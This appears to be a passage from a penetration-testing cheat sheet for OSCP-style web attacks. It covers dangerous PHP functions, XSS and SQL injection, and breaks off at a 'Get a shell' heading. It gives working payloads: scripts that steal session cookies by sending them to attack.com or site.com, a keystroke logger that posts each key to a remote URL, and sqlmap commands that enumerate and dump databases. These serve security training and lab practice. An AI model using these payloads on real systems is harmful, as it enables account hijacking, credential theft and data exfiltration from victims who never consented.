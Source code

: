 Vulnerable PHP functions: system, exec, shell_exec, popen, proc_open, passthru, pcntl_exec    
## Stored XSS    
Stored XSS: Victim gets malicious code after view a webpage.    
Reflected XSS: code output is reflected in response to a user, common vuln in URL params (GET or POST). Usually needs social engineering as a delivery mechanism.     
Basic Payload

     <script>alert("XSS")</script>
Test Input Fields (html tag <hr>, form elements and GET params)        

     '';!--"<XSS>=&{ () }     #look for unmodified chars    
Check for HTTPOnly Cookie Flag (unable to effect cookie with JS)   

     wget --server-response https://site.com 2>&1 | grep -E "Content-Security-Policy|Set-Cookie"    
Steal Session Cookie

    <script>fetch('https://site.com/page?cookie=' + btoa(document.cookie));</script>   
    <script>document.location='http://attack.com/page.php?c='+document.cookie</script>        
Record Keys Entered     

     <script>document.onkeypress = function(e) { fetch('https://site.com/log?key=' + btoa(e.key) );}</script>          

## SQL Injection 
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
[Pentestmonkey Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)  
Enum using nmap

    nmap -sV --script=http-sql-injection <target>  
    
Using jsql 

### SQLMAP (Not allowed on OSCP exam but good for labs!) 
Crawl a page to find sql-injections. Always use a valid non-error generating URL and put the URL in quotes.   

    sqlmap -u "http://example.com" --crawl=1    
    sqlmap -u "http://site.org/index.php?vuln_param=1" --dbms=mysql --dbs    #after identifying a vulnerability see database names     
    sqlmap -u "http://site.org/index.php?vuln_param=1" --dbms=mysql -D database --tables    #get table names from a database       
    sqlmap -u "http://site.org/index.php?vuln_param=1" --dbms=mysql -D database -T table --dump    #dump table content         
Used captured HTTP request (use Burp proxy)   

    sqlmap -r sqli.txt   
Custom SQLi
    sqlmap -u --data="query" -D [database name] --tables --threads 5 
    
Dump database 

    sqlmap -u "http://172.21.0.0" --dbms=mysql --dump   
Get a shell 
